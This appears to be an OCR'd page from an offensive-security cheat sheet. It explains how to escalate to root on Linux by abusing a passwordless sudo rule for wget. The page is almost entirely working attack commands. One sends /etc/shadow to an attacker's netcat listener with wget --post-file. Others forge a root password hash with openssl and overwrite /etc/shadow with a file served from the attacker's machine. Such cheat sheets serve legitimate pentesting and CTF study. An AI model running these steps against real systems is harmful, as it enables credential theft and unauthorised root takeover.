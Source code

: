 # Sudo Wget Privilege Escalation#

The "sudo wget" command may be vulnerable to privilege escalation (PrivEsc).

```Investigation
sudo -l
```

(root) NOPASSWD: /usr/bin/wget
If we can execute "wget" as root, we may be able to escalate privileges.


Modify /etc/shadow
Get "/etc/shadow" and generate a new hash passwd, then set it to the shadow file, next upload it.
That changes the root password.

1. Get the Content of /etc/shadow
To see the content of /etc/shadow, we can use netcat listener.
So First, start a listener in local machine.
nc -lvnp 4444
In target machine, display the contents of the "/etc/shadow" to the local machine using the following command.
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> 4444
We should see the content in our local machine via netcat listener.
Copy the content.

2. Create a New Shadow File
We create a new shadow file in local. The shadow file will be stored into the target /etc/shadow later.
vim shadow.txt
In vim editor (or nano, vi, etc.), paste the content of /etc/shadow which we've copied in the previous section.

3. Create a New Root User Password and Add to Shadow File
Generate a new hash password for a new root user in local machine.
 -6: SHA512
openssl passwd -6 -salt 'salt' 'password'
Copy the generated password and paste it at the password of the root user into the "shadow.txt".
As a result, the contents of the "shadow.txt" should look like this:
root:$6$salt$IxDD...DCy.g.:18195:0:99999:7:::
...

4. Transfer the Content of the Shadow File
To put the shadow.txt into the target machine, start web server for hosting this file.
python3 -m http.server 8000
Download this file into the /etc/shadow in remote machine. To do that, we need to run it as root.
sudo /usr/bin/wget http://<local-ip>:8000/shadow.txt -O /etc/shadow 
Finally, you can switch to the root user with the password we've created.
su root
